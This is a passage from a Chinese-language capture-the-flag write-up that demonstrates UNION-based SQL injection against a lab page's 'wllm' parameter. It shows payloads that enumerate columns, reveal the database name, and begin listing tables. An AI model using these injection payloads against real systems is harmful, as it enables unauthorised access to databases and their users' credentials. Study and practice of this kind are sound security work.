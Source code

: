 当尝试到4时会出现报错，所以得出只有3列

![1742661805219](image/NSS/1742661805219.png)

然后进行查询每行分别是什么

```
/?wllm=-1' union select 1,2,3 --+
```

得到

Your Login name:2
Your Password:3

所以第二列是name，第三列是password

尝试查询所在的数据库名称,database()会返回默认的数据库，然后通过union select 回显出来

```
/?wllm=-1' union select 1, 2, database() --+
```

得到数据库名称test_db

然后查询此数据库中有哪些表

使用group_concat(table_name),是一个聚合函数可以将多行中的table_name列的值连接成为一个字符串以逗号分隔
